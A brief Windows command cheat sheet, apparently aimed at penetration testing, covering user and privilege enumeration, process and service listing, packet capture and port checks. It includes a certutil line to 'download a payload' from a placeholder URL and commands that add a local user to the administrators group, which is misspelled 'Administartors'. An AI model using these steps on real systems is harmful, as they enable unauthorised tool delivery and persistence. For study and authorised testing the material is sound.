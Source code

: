 # list local users
```
net user
```
# Get current user info
```
whoami
whoami /groups
whoami /priv
```
# Add users (local)
```
net user /add <username> <password>
net localgroup Administartors <username> /add
```
# See Running Processes
```
tasklist
wmic process
```
# Kill a process
```
taskkill /PID <process_id> /F
```
# See Running Services
```
net start
sc query
wmic service get
```
# Capture Packets
```
netsh trace start persistent=yes capture=yes tracefile=<path/filename>.etl
netsh trace stop
```
# Download a payload
```
certutil -urlcache -split -f "https://<url>.zip" <filename>.zip
```
# Check for Open Ports (Powershell)

```
tnc \\computer.domain -Port 80
tnc 10.0.0.1 -Port 443
```
``# 
